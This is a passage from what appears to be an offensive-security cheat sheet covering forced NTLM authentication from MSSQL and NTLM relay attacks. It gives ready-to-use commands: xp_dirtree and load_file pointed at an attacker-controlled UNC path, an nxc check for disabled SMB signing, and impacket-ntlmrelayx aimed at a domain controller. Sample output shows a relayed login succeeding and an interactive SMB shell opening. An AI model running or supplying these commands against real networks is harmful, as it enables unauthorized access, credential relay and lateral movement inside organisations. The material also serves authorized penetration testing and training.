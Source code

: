 {{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
# Method 1
use master; exec xp_dirtree '\\<LOCAL_IP>\any\thing';
```

```console
# Method 2
load_file('\\<LOCAL_IP>\any\thing');
```

{{< /tabcontent >}}

---

### Abuse #2: NTLM Relay Attack

#### 1. Check if SMB Signing is False

```console
nxc smb <TARGET> -u '<USER>' -p '<PASSWORD>' -d <DOMAIN>
```

```console {class="sample-code"}
$ nxc smb MS01.example.com -u 'dev01' -p 'Initial123' -d example.com
SMB         10.10.132.54    445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:example.com) (signing:False) (SMBv1:False)
```

#### 2. Start a NTLM Relay Server \[Cannot Relay to Host itself\]

```console
impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET_DOMAIN> -i
```

```console {class="sample-code"}
$ impacket-ntlmrelayx --no-http-server -smb2support -t DC01.example.com -i
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client RPC loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled

[*] Servers started, waiting for connections
[*] SMBD-Thread-4 (process_request_thread): Received connection from 10.10.132.54, attacking target smb://DC01.example.com
[*] Authenticating against smb://DC01.example.com as REFLECTION/SVC_WEB_STAGING SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
```
